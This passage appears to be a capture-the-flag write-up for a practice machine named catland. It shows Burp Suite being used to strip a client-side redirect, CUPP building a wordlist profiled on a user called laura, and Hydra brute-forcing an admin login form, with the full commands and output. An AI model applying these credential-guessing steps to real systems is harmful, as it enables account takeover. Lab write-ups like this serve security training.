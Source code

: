 ```html

Invalid username or password    
```

### Burpsuite (Do Intercept > Response to this request)

<img src="https://drive.google.com/uc?id=1G4vBioq2oqIqJgrtZw11k0gMAR18e_Re"/>

* Remove redirect

```html
<script>
  redirectToSubdomain();
</script>
```

<img src="https://drive.google.com/uc?id=1qtSFHIFkwRTZSyU2jdlnAdUK97jHQmi-"/>

## CUPP User bruteforce (laura)

```bash
$ sudo cupp -i               
 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: laura
....

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to laura.txt, counting 108 words.
[+] Now load your pistolero with laura.txt and shoot! Good luck!
```

### HYDRA

```bash
$ hydra -l laura -P laura.txt admin.catland.hmv http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid username or password"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-27 23:43:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 108 login tries (l:1/p:108), ~7 tries per task
[DATA] attacking http-post-form://admin.catland.hmv:80/index.php:username=^USER^&password=^PASS^:Invalid username or password
[80][http-post-form] host: admin.catland.hmv   login: laura   password: La*******8
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-27 23:43:24
```
